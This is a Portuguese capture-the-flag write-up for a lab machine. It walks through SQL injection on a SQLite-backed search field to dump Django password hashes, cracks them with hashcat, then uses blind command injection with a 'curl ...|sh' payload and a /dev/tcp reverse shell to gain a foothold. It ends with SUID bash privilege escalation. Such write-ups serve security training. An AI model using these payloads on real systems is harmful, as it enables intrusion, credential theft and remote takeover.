



# KOF CTF (Hacking Club)
### Este write-up detalha como exploramos uma vulnerabilidade de SQL Injection combinada com um ataque de Command Injection para obter acesso ao sistema e escalar privilégios até o host principal.

## Iniciamos nossa análise realizando uma varredura de portas com o nmap para identificar serviços ativos no alvo:
```bash
sudo nmap -p- -Pn -sV --min-rate 400 -oN Allports 172.16.12.232
```
## Assim descobrimos que a porta 8000 está aberta.




## Ao acessar a porta 8000 , encontramos uma página relacionada a um campeonato de jogos onde era possível registrar equipes. No entanto, a funcionalidade de registro estava desativada. Durante a enumeração de diretórios utilizando FFuF, identificamos a rota /adminpanel, protegida por autenticação.



## Ao acessar a rota /adminpanel, identificamos que se trata de uma página de login. No entanto, sem as credenciais necessárias, não foi possível acessar o painel administrativo. Tentamos explorar possíveis vulnerabilidades de SQL Injection , mas sem sucesso.


## Retornando à página principal e analisando sua estrutura, encontramos um campo de pesquisa que permitia consultar os nomes das equipes cadastradas. Ao inserir uma payload simples de SQL Injection , como:
### ' or 1=1 --



## Para explorar essa vulnerabilidade, utilizamos o Burp Suite . Com a ferramenta aberta, interceptamos a requisição HTTP para análise. Ao pressionar Ctrl + R , enviamos a requisição para a aba "Repeater" . A partir desse ponto, realizamos diversos testes para explorar a vulnerabilidade de SQL Injection


## Então realizamos o primeiro teste para tentar descobrir o número de colunas que existem na tabela alvo.
### a'order+by+1,2,3,4+--+-
### a'order+by+1,2,3+--+-


## Com isso em mente, partimos para a próxima etapa: identificar os nomes das tabelas do banco de dados. Como se trata de um SQLite3 , utilizamos payloads específicas para explorar esse tipo de banco de dados.

### a'union+SELECT+1,sql,3+FROM+sqlite_master+WHERE+type!%3d'meta'+AND+sql+NOT+NULL+AND+name+NOT+LIKE+'sqlite_%25'+AND+name+%


## Após listar os nomes das tabelas, identificamos a tabela auth_user , que chamou nossa atenção por possivelmente conter credenciais válidas. Para obter mais informações, exploramos as colunas dessa tabela utilizando a seguinte payload:

### a' UNION SELECT 1, GROUP_CONCAT(name), 3 AS column_names FROM pragma_table_info('auth_user'); -- -

## Essa consulta nos permitiu listar os nomes das colunas presentes na tabela auth_user , facilitando a extração de dados relevantes.


## Feito isso, agora vamos utilizar uma payload para obter o nome dos usuários e a hash das senhas dos usuários. 
- a'+union+select+1,username,3+from+auth_user+--+-
- a'+union+select+1,password,3+from+auth_user+--+-


## Então, nós copiamos as hashes encontradas e as adicionamos em um arquivo de texto para tentar quebrar com a ferramenta hashcat.


## Agora, iremos utilizar o comando **hashcat --identify hash**, para identificarmos o tipo da hash que vamos tentar quebrar.


## Agora utilizaremos o comando abaixo para quebrar a hash do tipo Django (PBKDF2-SHA256) :

```bash
sudo hashcat -a 0 -m 10000 senhas /usr/share/wordlists/rockyou.txt
```
## Após a execução, conseguimos quebrar uma das hashes. Com as credenciais obtidas, vamos tentar acessar o painel de administração


## Conseguimos acessar a plataforma com o usuário "vanessa"


## Após explorar a plataforma, acessamos a rota /panel, onde aparentemente é possível criar servidores de jogos e configurar VPNs. No entanto, ao clicar em "Test connection" , recebemos a mensagem "VPN server creation failed!" . Diante disso, concluímos que seria necessário buscar outra forma de explorar essa funcionalidade.


## Então, ao clicar em "Test Connection" , interceptamos a requisição novamente com o Burp Suite para analisá-la.

## Em seguida, executamos testes de command injection para verificar se a aplicação era vulnerável a esse tipo de ataque. Para isso, configuramos um servidor Python em nossa máquina para monitorar as requisições recebidas do servidor. Utilizamos o seguinte comando no campo test_connection :


## Agora, executaremos testes de command injection para verificar se a aplicação é vulnerável a esse tipo de ataque. Para isso, configuramos um servidor Python em nossa máquina para monitorar as requisições recebidas do servidor. Utilizamos o seguinte comando no parâmetro test_connection :
### test_connection=;curl+10.0.10.62

```bash
sudo python3 -m http.server 80
```


## Ao clicar em **Send**, observamos em nosso servidor que recebemos uma requisição proveniente do servidor, conforme demonstrado abaixo.  

## Isso confirma que a aplicação é vulnerável a um ataque de **command injection** do tipo **blind**.


## Com isso, podemos criar um arquivo malicioso para estabelecer uma conexão reversa com o servidor alvo.
## Criamos um arquivo .sh contendo uma payload maliciosa.

```bash
/bin/bash -c 'sh -i >& /dev/tcp/ip/port 0>&1'
```


## Mantivemos um servidor Python ativo em nossa máquina para receber requisições do servidor alvo. Com essa configuração, conseguimos enviar nosso arquivo malicioso para o alvo.
## Para estabelecer a conexão reversa, configuramos o Netcat para escutar na porta especificada em nossa payload de reverse shell.


## No parâmetro test_connection iremos inserir a seguinte payload:
- ;curl+10.0.10.62/lulu.sh|sh

## Clicando em Send, conseguimos enviar nosso arquivo malicioso e conseguimos a conexão reversa com o servidor.


## Após atualizar o shell simples para um TTY totalmente interativo, executamos os seguintes comandos:
```bash
script /dev/null -c bash
export TERM=xterm
```

## Pressionamos Ctrl + Z para suspender a sessão e, em seguida, executamos:
```bash
stty raw -echo; fg
```

## Com o shell estabilizado, utilizamos o comando ls -la para listar todos os diretórios e arquivos no diretório raiz do servidor. No entanto, percebemos que estávamos dentro de um contêiner Docker . Para elevar nossos privilégios, seria necessário encontrar uma maneira de escapar desse contêiner.


## Utilizamos o comando abaixo para listar os binários com permissão SUID :
```bash
find / -perm /4000 2>/dev/null
```
## Ao analisar a saída, observamos que temos permissão para executar o bash com privilégios elevados. Com isso, conseguimos obter acesso root ao executar o seguinte comando:
```bash
bash -p
```

## Com isso conseguimos pegar a flag de user no diretório /root.


